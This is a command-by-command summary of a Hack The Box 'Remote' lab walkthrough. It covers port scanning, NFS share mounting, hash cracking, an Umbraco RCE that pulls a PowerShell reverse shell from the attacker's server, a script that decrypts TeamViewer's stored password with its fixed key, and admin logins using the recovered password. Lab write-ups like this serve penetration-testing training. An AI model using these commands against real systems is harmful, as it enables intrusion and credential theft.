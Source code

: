 Here's a cleaned-up, **ordered list of all commands used** in the [HTB: Remote](https://0xdf.gitlab.io/2020/09/05/htb-remote.html) walkthrough by 0xdf:

---

## 🔍 **Recon**

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.180
nmap -sV -sC -p 21,80,111,135,139,445,2049,5985,47001 -oA scans/nmap-tcpscripts 10.10.10.180
```

## 🌐 **Web Enumeration**

- No specific commands listed for web recon (manual browsing used).
- Umbraco admin panel discovered at `/Umbraco`.

## 📂 **NFS Enumeration & Mounting**

```bash
showmount -e 10.10.10.180
mount -t nfs 10.10.10.180:/site_backups /mnt/
cd /mnt/App_Data
strings Umbraco.sdf | head
```

## 🔓 **Hash Cracking**

```bash
cat admin.sha1
# (file contains: b8be16afba8c314ad33d812f22a04991b90e2aaa)

hashcat -m 100 admin.sha1 /usr/share/wordlists/rockyou.txt --force
```

## 💥 **Exploit (Umbraco RCE)**

```bash
# Prepare PowerShell reverse shell
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443" >> shell.ps1

# Serve the payload
python3 -m http.server 80

# Run exploit (Python script edited to call shell.ps1)
python umbraco_rce_iex.py
```

## 🐚 **Catch Reverse Shell**

```bash
rlwrap nc -lvnp 443
```

## 🔎 **Post-Exploit Enumeration (TeamViewer found)**

```powershell
tasklist
cd 'HKLM:\software\wow6432node\teamviewer\version7'
get-itemproperty -path .
(get-itemproperty -path .).SecurityPasswordAES
```

## 🔑 **Decrypt TeamViewer Password (Python)**

```python
#!/usr/bin/env python3
from Crypto.Cipher import AES

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174,
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218,
                    126, 141, 55, 107, 38, 57, 78, 91])
aes = AES.new(key, AES.MODE_CBC, IV=iv)
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")
print(f"[+] Found password: {password}")
```

## 🪟 **Admin Access**

```bash
# Validate admin creds
crackmapexec smb 10.10.10.180 -u administrator -p '!R3m0te!'

# Evil-WinRM shell
evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180

# Optional alternatives
psexec.py 'administrator:!R3m0te!@10.10.10.180'
wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
```

---

📎 **Write-up Link**: [HTB: Remote by 0xdf](https://0xdf.gitlab.io/2020/09/05/htb-remote.html)
